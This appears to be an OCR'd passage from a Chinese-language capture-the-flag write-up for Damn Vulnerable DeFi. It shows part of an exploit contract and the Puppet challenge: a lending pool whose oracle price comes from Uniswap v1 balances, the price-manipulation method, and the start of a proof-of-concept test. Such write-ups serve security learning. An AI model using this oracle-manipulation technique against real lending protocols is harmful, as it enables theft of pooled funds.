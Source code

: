 ```
        recovery = _recovery;
    }
    function buy() external payable{
        uint _nftId = exchange.buyOne{value:1}();
        nftId = _nftId;
    }
    function sell() external payable{
        nft.approve(address(exchange), nftId);
        exchange.sellOne(nftId);
    }
    function recover(uint amount) external {
        payable(recovery).transfer(amount);
    }
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4){
        return this.onERC721Received.selector;
    }
    receive() external payable{
    }
}
```

### Puppet

[題目](https://www.damnvulnerabledefi.xyz/challenges/puppet/): 有一個貸款池，使用者可以在其中借貸Damn Valuable Tokens（DVTs）。要借貸，他們首先需要存入借款額度兩倍的ETH作為抵押品。該池目前有100,000 DVT的流動性。在一個老舊的Uniswap v1交易所中開設了DVT市場，目前有10 ETH和10 DVT的流動性。通過將貸款池中的所有代幣救出來並將它們存入指定的 recovery 錢包來完成挑戰。你開始時有25 ETH和1000 DVT的餘額。

過關條件:
- 確保僅執行一筆交易
- lendingPool 的DVT代幣為0
- 將所有DVT轉到 recovery 錢包

解題:
- 過去很多被駭事件, 使用合約上的餘額來當條件, 這是非常危險的且可被操控. 在PuppetPool中可以看到 _computeOraclePrice 就是使用balance來計算 oracle price.
```
    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
```
- 將自己的所有DVT透過 tokenToEthTransferInput 打到 uniswapV1Exchange 操控price.
- 
[POC](./damn-vulnerable-defi/test/puppet/Puppet.t.sol) : 
```
    function test_puppet() public checkSolvedByPlayer {
        Exploit exploit = new Exploit{value:PLAYER_INITIAL_ETH_BALANCE}(
            token,
            lendingPool,
            uniswapV1Exchange,
            recovery
        );
        token.transfer(address(exploit), PLAYER_INITIAL_TOKEN_BALANCE);
        exploit.attack(POOL_INITIAL_TOKEN_BALANCE);
    }

contract Exploit {
    DamnValuableToken token;
    PuppetPool lendingPool;
    IUniswapV1Exchange uniswapV1Exchange;
```